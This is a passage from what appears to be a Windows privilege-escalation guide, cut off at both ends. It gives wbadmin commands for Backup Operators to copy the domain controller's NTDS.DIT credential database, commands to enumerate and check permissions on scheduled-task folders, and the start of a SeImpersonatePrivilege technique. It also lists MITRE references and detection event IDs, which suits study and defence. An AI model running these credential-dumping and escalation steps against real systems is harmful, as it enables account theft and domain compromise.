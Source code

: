 - SeRestorePrivilege: Modify a service that can be started by anyone and

Members of the "Backup Operators" can logon locally on a Domain Controller and backup the NTDS.DIT
For Instance:

```bash
wbadmin start backup -backuptarget:*e* -include:c:\windows\ntds
wbadmin get versions
wbadmin start recovery -version:*version* -recoverytarget:c:\temp\srvdc1 -notrestoreacl
```

or diskshadow: <https://youtu.be/ur2HPyuQlEU?t=1121>

For more information on those techniques:

- [T1003.002 - OS Credential Dumping: Security Account Manager](https://attack.mitre.org/techniques/T1003/002/)

#### Task Scheduler

##### Directory Access technique

We need to see if we have access to the folder where all the tasks are stored. If yes, we can leverage that.

```bash
# Note that it don't show "C:\Windows\System32\Tasks"
# So for instance a TaskPath with "Microsoft\XblGameSave" means "C:\Windows\System32\Tasks\Microsoft\XblGameSave"
schtasks /query /fo LIST 2>nul | findstr TaskName
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State


icacls C:\Windows\system32\Tasks
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor creation and changes of scheduled task though Windows Event ID 4698, 4700 and 4701

For more information about that technique refer to [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

##### SeImpersonatePrivilege technique

First, let's have a look at the following [Microsoft Security Hardening feature](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-security-hardening) for scheduled tasks

> *If RequiredPrivileges is not present in the task definition, the default privileges of task principal account without the SeImpersonatePrivilege will be used for task process. If ProcessTokenSidType is not present in the task definition, “unrestricted” is used as the default.*

On Windows, some services executed as *LOCAL SERVICE* or *NETWORK SERVICE* are configured to run with a restricted set of privileges.
However, within the Register-ScheduledTask cmdlet, we can perform some token manipulation in order to get the **SeImpersonatePrivilege**

We need to pass the "-RequiredPrivilege" to the Register-ScheduledTask cmdlet in order to go around that
